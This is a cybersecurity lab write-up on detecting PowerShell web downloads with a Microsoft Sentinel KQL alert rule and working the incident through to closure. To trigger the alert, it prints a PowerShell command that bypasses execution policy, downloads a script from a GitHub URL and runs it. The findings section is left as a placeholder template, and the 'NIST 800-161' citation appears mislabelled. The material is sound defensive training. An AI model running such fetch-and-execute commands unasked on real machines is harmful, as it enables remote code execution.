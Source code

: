 
# Detecting Suspicious PowerShell Web Requests in Microsoft Sentinel

## Explanation
Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as `Invoke-WebRequest`, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. 

This tactic is a hallmark of post-exploitation activity, enabling attackers to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

When processes are executed on the local VM, logs will be forwarded to Microsoft Defender for Endpoint under the `DeviceProcessEvents` table. These logs are then sent to the Log Analytics Workspace used by Microsoft Sentinel, our SIEM. Within Sentinel, we will define an alert to trigger when PowerShell is used to download a remote file from the internet.

---

## Part 1: Create Alert Rule (PowerShell Suspicious Web Request)
I designed a Sentinel Scheduled Query Rule within Log Analytics to detect when PowerShell is used to download content using `Invoke-WebRequest`. Before creating the alert rule, I ensured the appropriate logs were available.

### KQL Query
```kql
let TargetHostname = "windows-target-1"; // Replace with the name of your VM as it shows up in the logs
DeviceProcessEvents
| where DeviceName == TargetHostname // Comment this line out for MORE results
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```

Once the query was validated, I created the Scheduled Query Rule in:
- **Sentinel → Analytics → Scheduled Query Rule**

### Analytics Rule Settings:
- **Name:** PowerShell Suspicious Web Request
- **Description:** Detects when PowerShell is used to download files from the internet
- ✅ Enable the Rule
- **MITRE ATT&CK Framework Categories:** Use ChatGPT to map appropriate categories
- **Run query every:** 4 hours
- **Lookup data for the last:** 24 hours
- **Stop running query after alert is generated:** Yes
- **Entity Mappings:**
  - **Account:** Identifier → Name, Value → AccountName  
  - **Host:** Identifier → HostName, Value → DeviceName  
  - **Process:** Identifier → CommandLine, Value → ProcessCommandLine  
- ✅ Automatically create an Incident if the rule is triggered
- **Group all alerts into a single Incident per 24 hours**
- **Stop running query after alert is generated (24 hours)**

---

## Part 2: Trigger Alert to Create Incident
I ensured that my VM was onboarded to MDE and had been running for several hours. If logs were missing, I manually executed the following commands on my VM to simulate malicious behavior and generate logs:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

---

## Part 3: Work Incident
Following the **NIST 800-161: Incident Response Lifecycle**, I worked through the incident to completion.

### **Preparation**
- Ensured roles, responsibilities, and procedures were documented.
- Verified that necessary tools, systems, and training were in place.

### **Detection and Analysis**
- Identified and validated the incident.
- Assigned the incident to myself and set the status to Active.
- Investigated the Incident via **Actions → Investigate**.
- Gathered relevant evidence, such as logs and PowerShell script downloads.
- Simulated contacting the user, who claimed they installed free software at the time of the suspicious activity (for lab purposes).

#### **Findings:**
- The **PowerShell Suspicious Web Request** incident was triggered on _X_ devices by _Y_ users.
- PowerShell downloaded _Z_ different scripts from the internet:
  - URL to Script 1
  - URL to Script 2

To verify whether the scripts were executed, I ran:

```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

---

### **Containment, Eradication, and Recovery**
- Isolated the affected system using Microsoft Defender for Endpoint.
- Performed an antimalware scan in MDE.
- If any scripts were executed, I analyzed their content using ChatGPT and recorded my findings:
  - Script **X.ps1** was observed to **[describe action]**.
  - Script **Y.ps1** was observed to **[describe action]**.
- Removed the threat and restored the system to normal.

---

## **Post-Incident Activities**
- Documented findings and lessons learned.
- Updated policies to prevent recurrence, such as restricting PowerShell usage.
- Closed out the incident within Sentinel as a **True Positive**.

### **Closure**
- Reviewed and confirmed incident resolution.
- Finalized reporting and closed the case.

---

## **Conclusion**
By implementing this alert rule and working through the incident, I successfully detected and responded to a potential security threat using Microsoft Sentinel and Microsoft Defender for Endpoint. This process reinforced best practices for threat hunting and security operations while highlighting how attackers can leverage legitimate tools like PowerShell for malicious activity. Moving forward, refining detection rules and implementing additional controls will further enhance security posture and threat mitigation efforts.
